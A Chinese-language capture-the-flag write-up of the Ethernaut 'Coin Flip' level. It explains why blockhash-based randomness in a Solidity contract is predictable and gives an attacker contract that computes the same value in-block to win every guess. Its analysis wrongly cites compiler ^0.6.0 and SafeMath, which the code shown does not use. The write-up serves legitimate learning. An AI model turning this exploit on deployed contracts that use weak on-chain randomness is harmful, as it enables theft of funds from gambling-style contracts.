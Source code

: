 # Coin Flip

## 题目

通关要求：这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。即：consecutiveWins设置为10

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## 分析

老样子先看编译器版本^0.6.0，那么就可能出现整数溢出漏洞。但是我们看到它引用了Safemath库，那么排除整数溢出这个可能了。

在区块链当中，随机数并不随机，它是伪随机数。在flip方法中，`uint256 blockValue = uint256(blockhash(block.number - 1));`、`uint256 coinFlip = blockValue / FACTOR;`、`bool side = coinFlip == 1 ? true : false;`这三个是核心的猜数代码，其实我们也可以自己来写。这个题目所谓猜数，就是猜经过这三个代码之后出来的结果。然而我们也可以自己运行这个代码来猜数。

> 别人的分析：https://thomasxu-blockchain.github.io/2022-11-03-ethernaut01/#03-Coin-Flip
>
> 分析flip代码：`block.number`用来获取当前交易的block编号，减1获取前一个block的编号，而`blockhash(id)`获取对应id的block的hash值，然后uint256将其转换为16进制对应的数值。其中给的factor是`2^(256)/2`，所以每次做完除法的结果有一半几率是0，一半是1。
>
> 本题的漏洞就出在通过`block.blockhash(block.number - 1)`获取负一高度的区块哈希来生成随机数的方式是极易被攻击利用的。
>
> 原理是在区块链中，一个区块包含多个交易，我们可以先运行一下上述除法计算的过程获取结果究竟是0还是1，然后再发送对应的结果过去。区块链中块和块之前的间隔大概有10秒，手动去做会有问题，不能保证我们计算的合约是否和题目运算调用在同一个block上，因此需要写一个攻击合约完成调用。我们在攻击合约中调用题目中的合约，可以保证两个交易一定被打包在同一个区块上，因此它们获取的block.number.sub(1)是一样的。
>
> 其实就是利用了一个区块中可能有多个交易，而我们可以自己创建一个交易，执行与题目中一样的语句后得到的`block.number.sub(1)`是一样的

## 攻击代码

说明：

attack_1和attack_2是我想在一个while循环里面完成10次猜数操作。但是代码逻辑有错误：因为是同一笔交易，`blockValue = uint256(blockhash(block.number - 1))`的`block.number`恒定不变。但是根据题目要求`if (lastHash == blockValue) {revert();}`则不满足（要求一个区块内只能猜一次）。【solidity中有没有一种内置的方法，是等到下一个区块被挖出来之后，才往下执行？即block.number发生变化再往下执行。答案：单条类EVM链中，原理上无法实现】

因此我们只能通过attack_3来调用10次

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack{
    CoinFlip private immutable coinflip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _name){
        coinflip = CoinFlip(_name);
    }

    function attack_1() external {
        uint count = 0;

        bool side;
        uint256 blockValue;
        uint256 coinFlip;
        while (count < 10) {//猜10次
            blockValue = uint256(blockhash(block.number - 1));
            coinFlip = blockValue / FACTOR;
            side = coinFlip == 1 ? true : false;
            require(coinflip.flip(side),"guess false");
            count++;
        }
    }

    function attack_2() external  {
      uint8 count = 0;
      while (count < 10){
        bool guess = guess();
        require(coinflip.flip(guess),"guess false");
        count++;
      }
    }

    function attack_3() external{
      bool guess = guess();
      require(coinflip.flip(guess),"guess false");
    }

    function guess() private view returns(bool){
      uint256 blockValue = uint256(blockhash(block.number - 1));
      uint256 coinFlip = blockValue / FACTOR;
      bool side = coinFlip == 1 ? true : false;
      return side;
    }
    function getConsecutiveWins() public view returns(uint256){
      return coinflip.consecutiveWins();
    }
}
```

## 做题

获取题目实例：`0x8F1CeDfDe277E9113f1e93C45742dE560B0277c9`

![](https://moe.photo/images/2022/12/22/ad23db7f22e2483c92d99a11f19b5aa8.png)

通过

![](https://moe.photo/images/2022/12/22/e26fdb5eb4ac4495b033a4124b66a348.png)

## 小插曲

执行attack_3的时候，会出现下图这个提示。但是仍然可以执行成功。

![](https://moe.photo/images/2022/12/22/5c126b24424d409db828adb515ca7ab7.png)

## 另外

foundry可以模拟区块状态，可以用他来模拟下一个区块挖出来，用一个循环来执行10次。

大佬介绍：https://thomasxu-blockchain.github.io/Foundry/

foundry主页：https://book.getfoundry.sh/cheatcodes/







